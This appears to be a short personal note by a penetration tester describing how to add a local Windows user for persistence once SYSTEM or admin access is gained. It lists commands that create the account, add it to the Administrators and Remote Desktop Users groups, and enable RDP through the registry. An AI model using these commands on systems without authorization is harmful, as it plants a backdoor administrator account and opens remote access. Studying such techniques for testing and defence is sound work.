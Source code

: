 # How to Quickly Add a User on Windows

author:: Nathan Acks  
date:: 2022-04-25

If you've got SYSTEM (or just even local admin) on a Windows box, you can quickly add a new user from your shell for persistence and/or RDP access (useful for Impacket, etc.).

```powershell
net user $USERNAME $PASSWORD /add
net localgroup Administrators $USER /add
net localgroup "Remote Desktop Users" $USER /add
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

## References

* [Alice with Siddicky (Student Mentor) (YouTube)](https://www.youtube.com/watch?v=Zma6Mk5bEI8)
